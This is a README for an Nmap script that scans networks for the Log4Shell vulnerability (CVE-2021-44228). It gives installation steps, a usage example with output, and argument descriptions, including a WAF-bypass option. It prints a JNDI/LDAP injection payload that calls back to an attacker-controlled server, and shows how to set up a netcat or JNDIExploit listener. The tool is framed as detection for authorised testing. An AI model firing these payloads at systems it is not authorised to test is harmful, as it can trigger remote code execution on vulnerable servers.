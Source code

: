 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

`nmap-log4shell` is a Nmap script to check the **log4shell** vulnerability across the network. The script is able to inject the **log4shell** exploit payload via HTTP Headers (default) or via Socket (TCP or UDP).

## Vulnerability

**CVE-2021-44228** is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.2 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   Payloads:
    |     ${jndi:ldap:/172.17.42.1:389/log4shell}
    |   Test Method: HTTP
    |   URL Path: /
    |   HTTP Method: GET
    |   HTTP Headers: 
    |     Access-Control-Request-Method: 200 
    |     Accept: 200 
    |     Access-Control-Request-Headers: 200 
    |     Accept-Charset: 200 
    |     X-Api-Version: 200 
    |     Warning: 200 
    |     Pragma: 200 
    |     Upgrade-Insecure-Requests: 200 
    |     Range,: 400 
    |     Hostname: 200 
    |     Content-Length: 400 
    |     Dnt: 200 
    |     Date: 200 
    |     Username: 200 
    |     Content-Encoding: 200 
    |     Content-Type: 200 
    |     Forwarded: 200 
    |     Max-Forwards: 200 
    |     Accept-Encoding: 200 
    |     Referer: 200 
    |     IP: 200 
    |     IPaddress: 200 
    |     X-Amz-Date: 200 
    |     X-Amz-Target: 200 
    |     TE: 200 
    |     Content-Disposition: 200 
    |     X-Requested-With: 200 
    |     upgrade-insecure-requests: 200 
    |     Authorization: 200 
    |     Cookie: 200 
    |     User-Agent: 200 
    |     Accept-Language: 200 
    |     Proxy-Authorization: 200 
    |     Expect: 417 
    |     From: 200 
    |     Accept-Datetime: 200 
    |     X-CSRF-Token: 200 
    |     Origin: 200 
    |_  Note: (!) Inspect the callback server (172.17.42.1:389) or web-application (172.17.42.2:8080) logs


### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)
- `log4shell.http-method`: HTTP method (default: `GET`)
- `log4shell.url-path`: URL path (default: `/`)
- `log4shell.waf-bypass`: Use WAF bypass payloads (default: `false`)
- `log4shell.test-method`: Test through `http` (default), `tcp`, `udp` or `all`


### Callback Server

The script relies on callbacks from the target being scanned and hence any firewall rules or interaction with other security devices will affect the efficacy of the script.


#### Netcat or Ncat

Listen a TCP port with netcat (or ncat):

    ncat -vkl 1389   # Ncat
    nc -lvnp 1389    # Netcat

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.

#### JNDIExploit

Download JNDIExploit from GitHub (https://github.com/giterlizzi/JNDIExploit/releases/download/v1.2/JNDIExploit.zip)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query

    [+] Received LDAP Query: log4shell
    [!] Invalid LDAP Query: log4shell


# Legal Disclaimer

This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License

The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
